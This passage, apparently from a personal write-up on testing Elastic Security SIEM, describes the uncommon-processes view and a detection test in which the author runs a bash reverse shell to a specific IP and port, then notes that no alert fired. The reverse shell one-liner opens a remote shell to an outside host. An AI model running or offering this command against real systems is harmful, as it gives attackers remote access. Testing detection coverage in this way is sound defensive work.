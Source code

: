 ![](<../../.gitbook/assets/image (32).png>)

Note that these uncommon processes will not appear in **Detection** tab, since by default there is no rules to match this list. I suppose this list of _Uncommon processes_ are only for additional information when inspecting a host, basically they are query logs and do some aggregation and filtering.

## Testing the Detection feature

One of the main feature of SIEM is its ability to generate alerts when malicious things happen. Let's test out the detection feature of this Elastic Security!

### Let's try spawning reverse shell <a href="#84d8dc1c-84ff-41df-8ef0-cf27bf7e6419" id="84d8dc1c-84ff-41df-8ef0-cf27bf7e6419"></a>

Using this payload: `bash -i >& /dev/tcp/157.230.255.84/1337 0>&1`. After executing this command, we didn't see any alerts. We are able to see our bash exec process in the event list, but it didn't trigger any alert, which is disappointing.

![](<../../.gitbook/assets/image (36).png>)
